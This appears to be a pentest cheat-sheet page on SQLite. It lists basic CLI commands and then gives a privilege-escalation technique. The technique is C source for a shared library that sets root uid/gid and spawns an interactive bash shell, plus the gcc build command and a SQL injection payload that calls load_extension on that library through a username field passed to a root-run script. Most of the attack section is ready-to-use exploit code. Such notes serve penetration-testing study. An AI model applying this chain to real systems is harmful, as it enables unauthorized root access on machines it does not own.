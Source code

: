 # SQLite

## Commands
```bash
# Open DB file
.open <your_file.db>

# List databases
.databases

# List tables
.tables

# Structure of table
.schema <table>
```

## Command execution
### load_extension
Suppose we're on Linux and there's a bash script which asks for a username that will be used to activate the user.

The commands looks like this: 
```bash
/usr/bin/sqlite3 db.sqlite3 -line \'UPDATE accounts_customuser SET is_active=1 WHERE username=\"%s\";\'
```
We need to create a `.c` script that we compile into a library.
```c
// test.c
#include <stdlib.h>
#include <unistd.h>

void _init() {
    setuid(0);
    setgid(0);
    system("/bin/bash -i");
}
```
```bash
gcc -shared -fPIC -nostartfiles -o test.so test.c
```
This library will spawn an elevated shell.

For this to work we're going to create a payload that we'll feed to the script. Once the script reaches the point where the username
is used in the sql statement, a shell with elevated privileges will be spawned.
```
"+load_extension('test.so')+"
```